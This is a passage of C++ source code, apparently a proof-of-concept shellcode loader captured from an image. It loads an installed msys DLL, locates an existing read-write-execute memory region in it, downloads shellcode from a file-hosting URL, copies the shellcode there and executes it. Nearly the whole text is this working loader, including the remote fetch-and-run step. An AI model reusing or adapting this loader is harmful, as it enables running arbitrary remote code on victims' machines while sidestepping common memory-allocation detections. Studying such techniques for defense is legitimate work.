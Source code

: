 ```

        BYTE temp[4096]{};
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

    // close all the handles
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}

int main()
{
    HMODULE hModule = LoadLibraryW(L"C:\\Program Files\\Microsoft Visual Studio\\2022\\Community\\Common7\\IDE\\CommonExtensions\\Microsoft\\TeamFoundation\\Team Explorer\\Git\\usr\\bin\\msys-2.0.dll");

    printf("[+] Module loaded...");

    if (hModule != NULL)
    {
        // calculate offset to loaded DLL RWX memory region
        DWORD_PTR rwxOffset = FindRWXOffset(hModule);
        printf("[+] Offset to RWX memory region: 0x%lx\n", rwxOffset);

        // Download shellcode
        std::vector<BYTE> shellcode = Download(L"www.filebin.net", L"/wj76iwfjn1axc8xy/msgbox.bin");

        // Convert shellcode to a char array
        unsigned char* shellcodeChar = reinterpret_cast<unsigned char*>(shellcode.data());
        SIZE_T shellcodeSize = shellcode.size();

        // Write shellcode to RWX memory region
        memcpy(reinterpret_cast<LPVOID>(rwxOffset), shellcodeChar, shellcodeSize);

        printf("[+] Shellcode Written to RWX Memory Region.\n");

        ((void(*)())rwxOffset)();

        // Pause the program
        printf("[*] Shellcode Executed ");

        // Unload the DLL
        FreeLibrary(hModule);
    }
    else
    {
        printf("Failed to load the DLL.\n");
    }

    return 0;
}
```


[+]: Shellcode located at c7160